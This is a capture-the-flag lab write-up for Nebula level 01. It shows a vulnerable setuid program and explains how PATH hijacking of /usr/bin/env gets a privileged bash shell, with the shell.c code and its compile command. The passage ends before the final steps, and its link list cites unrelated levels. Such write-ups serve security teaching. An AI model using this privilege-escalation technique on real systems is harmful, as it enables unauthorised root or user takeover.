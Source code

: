 # level 01

We are given the below source code containing a vulnerability.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

[`/usr/bin/env`][gnu-coreutils-env] runs a command in a modified environment.
The command is looked up via `PATH`. We can exploit this by modifying `PATH` to
point to an `echo` binary that runs code that we control.

First, we write a `shell.c` that will executes `/bin/bash`. We will be reusing
this piece of code often in this exercise.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

We compile `shell.c`.

```shell
level01@nebula:~$ gcc -o /home/level01/echo /tmp/shell.c
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md